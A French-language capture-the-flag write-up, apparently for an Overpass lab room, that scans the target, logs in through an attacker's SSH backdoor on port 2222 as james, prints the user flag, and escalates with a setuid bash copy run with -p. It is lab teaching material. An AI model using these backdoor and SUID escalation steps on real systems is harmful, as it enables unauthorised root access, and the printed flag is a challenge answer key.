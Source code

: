 ```
```
sudo nmap [IP_MACHINE] -sS -sV

```
On voit que le port 2222 utilisé pour ssh mais aussi le port 22.
Dans la backdoor, on se souvient que le port 2222 est utilisé pour se conencter en ssh justement. 

Alors, on va exploiter ce port. On sait aussi que l'utilisateur auquel l'attaquant à voulu se connecté est **james** 
```
ssh -p 2222 james@[IP_MACHINE] 

```
On arrive alors sur le dossier "/host/james/ssh-backdoor"

On reviens sur le dossier de l'utilisateur et on voir un fichier nommé user.txt. 
```
james@overpass-production:/home/james/ssh-backdoor$ cd ..

james@overpass-production:/home/james$ ls

ssh-backdoor  user.txt  www

james@overpass-production:/home/james$ cat user.txt 

thm{d119b4fa8c497ddb0525f7ad200e6567}

```
Oh un flag ! 

Réponse 10 : **thm{d119b4fa8c497ddb0525f7ad200e6567}**

## What's the root flag?

L'indice nous dit : "L'attaquant a-t-il laissé un moyen rapide de revenir en mode root sans mot de passe ?"

Cet indice nous informe que l'attquant à laissé un moyen rapide de devenir root sans mot de passe. 

On va donc regarder tous les fichiers, mêmes ceux cachés et surtout quels sont leurs droits. 

On tombe donc sur un fichier nommé : **.suid_bash** qui a les droits suivants : 

```
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
``` 
```-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash```

Intéressant, ce fichier éxécutable à les droits root, bah on va l'éxécuter alors : 

```
james@overpass-production:/home/james$ ./.suid_bash -p
